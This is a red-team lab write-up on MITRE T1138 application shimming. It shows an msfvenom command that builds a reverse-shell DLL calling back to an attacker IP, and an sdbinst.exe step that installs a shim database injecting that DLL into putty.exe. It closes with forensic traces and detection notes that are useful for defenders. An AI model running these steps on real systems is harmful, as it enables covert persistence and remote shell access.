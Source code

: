 ```yaml
---
layout: post
title: "t1138 application shimming"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1138-application-shimming/
---
```


---
layout: post
title: "t1138 application shimming"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1138-application-shimming/
---

---
description: 'Persistence, Privilege Escalation'
---

# Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../../.gitbook/assets/shim-new-fix.png)

![](../../.gitbook/assets/shim-injectdll.png)

![](../../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

@spotheplanet
